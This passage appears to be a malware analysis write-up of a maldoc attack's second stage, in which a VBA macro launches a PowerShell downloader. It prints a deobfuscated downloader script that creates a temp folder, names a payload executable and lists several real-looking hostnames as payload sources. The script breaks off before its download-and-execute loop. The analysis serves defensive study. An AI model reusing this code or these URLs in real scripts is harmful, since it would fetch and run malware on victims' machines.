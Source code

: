 **Stage 2: The PowerShell Downloader (Living-off-the-Land)**
The VBA macro's execution of PowerShell is the key pivot in the attack. The alert and log data show `powershell.exe` as the source process for the malicious network traffic, with the `.doc` file as its parent.
<img width="957" height="443" alt="image" src="https://github.com/user-attachments/assets/71e619b4-8ce0-491f-a298-31a79a591977" />

The deobfuscated PowerShell script below reveals a sophisticated downloader with built-in resiliency.

```powershell
#
# =================================================================================
# Deobfuscated Malicious PowerShell Downloader
#
# Original script was heavily obfuscated to evade detection. This version
# is cleaned up for analysis.
#
# WARNING: DO NOT EXECUTE THIS SCRIPT.
# =================================================================================
#

# Stage 1: Prepare the environment

# Define the path for the directory where the malware will be saved.
# This creates a folder named "wORD\2019" inside the user's temporary directory (e.g., C:\Users\Username\AppData\Local\Temp).
$malwareDirectory = Join-Path -Path $Env:Temp -ChildPath "wORD\2019"

# Create the directory if it doesn't exist.
if (-not (Test-Path -Path $malwareDirectory)) {
    New-Item -Path $malwareDirectory -ItemType Directory
}

# Ensure the script can download from modern secure websites (HTTPS).
# It enables TLS 1.2, 1.1, and 1.0 protocols for the connection.
[System.Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls"

# Stage 2: Define download parameters

# Define the filename for the malicious executable that will be downloaded.
$malwareFileName = "Y85mi4vtd.exe"

# Construct the full path where the downloaded executable will be saved.
$downloadPath = Join-Path -Path $malwareDirectory -ChildPath $malwareFileName

# Create a list of URLs from which to download the payload.
# The script will try these one by one until it succeeds. This makes it resilient
# if one or more of the sites are taken down.
$urlList = @(
    "http://qstride.com/img/0/",
    "http://tskgear.com/wp-content/uploads/2015/06/pz/",
    "http://vermasiyaahi.com/cgi-bin/8/",
    "http://www.weblabor.com.br/avisos/QIU9/",
    "http://viniciusrangel.com/experimental/VIhMh1/",
    "http://westvac.com/wp-content/GOYx/",
    "https://viewall.eu/cgi-bin/SbhZP9X/"
)

# Create a web client object to handle the file download.
$webClient = New-Object System.Net.WebClient

# Stage 3: Download and execute the payload

# Loop through each URL in the list.
```
